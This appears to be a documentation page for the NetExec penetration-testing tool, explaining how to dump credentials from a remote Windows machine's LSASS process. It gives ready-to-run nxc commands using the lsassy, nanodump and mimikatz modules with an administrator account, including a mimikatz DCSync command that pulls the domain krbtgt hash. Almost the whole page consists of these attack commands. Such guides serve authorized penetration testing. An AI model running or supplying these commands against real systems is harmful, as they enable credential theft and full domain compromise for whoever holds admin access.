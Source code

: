 # Dump LSASS

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

### Using Lsassy

Using the module Lsassy from [@pixis ](https://twitter.com/HackAndDo), you can dump the credentials remotely

```bash
nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
```

### Using nanodump

Using the module nanodump you can dump the credentials remotely

```bash
nxc smb 192.168.255.131 -u administrator -p pass -M nanodump
```

### Using Mimikatz (deprecated)

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Using the Mimikatz module, the powershell script `Invoke-Mimikatz.ps1` will be executed on the remote target

```bash
nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

```bash
nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
```
